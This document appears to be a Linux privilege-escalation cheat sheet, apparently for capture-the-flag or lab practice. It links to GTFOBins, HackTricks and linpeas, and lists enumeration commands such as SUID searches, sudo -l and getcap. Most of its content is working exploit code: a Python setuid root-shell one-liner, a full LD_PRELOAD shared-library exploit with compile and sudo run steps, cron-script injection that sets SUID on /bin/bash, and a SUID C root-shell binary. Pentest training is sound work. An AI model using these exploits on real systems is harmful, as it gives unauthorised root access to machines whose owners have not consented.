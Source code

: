 

## 🌐 Main Resources

- [GTFOBins](https://gtfobins.github.io/): Unix/Linux binaries that can be abused to escalate privileges.
- [HackTricks - Privilege Escalation](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files): Techniques for local privilege escalation on Linux.
- [linpeas.sh](https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh): Script to automate privilege escalation enumeration.

---

## 🔍 General Commands

### 🔹 Find SUID/SGID files

```bash
find / -perm -4000 2>/dev/null
```

> Lists all files with SUID/SGID permissions. These can often be exploited to run programs with elevated privileges. (chmod 4000 for owner and chmod 2000 for group)

### 🔹 Check sudo rights

```bash
sudo -l
```

> Displays commands the current user can execute via sudo, with or without a password.

### 🔹 Check Linux capabilities

```bash
getcap -r / 2>/dev/null | grep '/bin/'
```

> Recursively lists files with Linux capabilities (e.g. `cap_setuid`, `cap_net_bind_service`), filtered for `/bin`.

### 🔹 Find files belonging to your group

```bash
id         # check your groups
find / -group yourgroup -type f 2>/dev/null
```

> Search for files owned by a group you are a member of.

### 🔹 Useful directories to investigate

- `/tmp`, `/var/tmp`, `/var/backups`
- `/var/mail`, `/var/spool/mail`
- `/etc/exports`
- `/opt/`: often used for custom applications

### 🔹 List open ports

```bash
netstat -tulnp
```

### 🔹 Port forwarding

```bash
ssh -L 8000:127.0.0.1:8000 enzo@10.10.11.68
```


---

## 🐍 Privilege Escalation via Python

```python
python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

> Spawns a root shell if the script is run with root privileges.

---

## 🔗 LD\_PRELOAD + sudo

### 🔹 Exploit example

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void run_me_first() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

**Compile:**

```bash
gcc -fPIC -shared -o exploit.so exploit.c
```

**Run:**

```bash
sudo LD_PRELOAD=./exploit.so /usr/bin/ping
```

---

## ⏰ Crontab 

### 🔎 Where to look:

- `/etc/crontab`
- `/etc/cron.*/*`
- Systemd timers (`systemctl list-timers`)

### ⚔️ Exploitation Steps:

1. **Identify a writable target**:

   - Check if you can edit a script or file executed by the cronjob.
   - Use `ls -la` to inspect permissions.

2. **Inject malicious code**:

   - For example, add a reverse shell or privilege escalation payload to the script:
     ```bash
     #!/bin/bash
     chmod u+s /bin/bash
     ```
   - This will set the SUID bit on `/bin/bash`, allowing root shell access with:
     ```bash
     /bin/bash -p
     ```

3. **Wait for the cronjob to run** — Check the timing configuration of the cronjob. Crontab lines follow this format:

```
# ┌───────────── minute (0 - 59)
# │ ┌───────────── hour (0 - 23)
# │ │ ┌───────────── day of month (1 - 31)
# │ │ │ ┌───────────── month (1 - 12)
# │ │ │ │ ┌───────────── day of week (0 - 7) (Sunday is 0 or 7)
# │ │ │ │ │
# * * * * *  user-name  command-to-be-executed
```
---

## 🧬 Crontab → SUID bash

```python
os.system('chmod u+s /bin/bash')
```

Then:

```bash
/bin/bash -p
```

> Runs bash with root privileges if the SUID bit is set.

---

## ⚙️ SUID via C binary

```c
#include <unistd.h>
int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

> Compiles a binary that spawns a root shell when executed with SUID.

---

## 🧱 AppArmor

- Check AppArmor profiles and restrictions in `/etc/apparmor.d/`

---


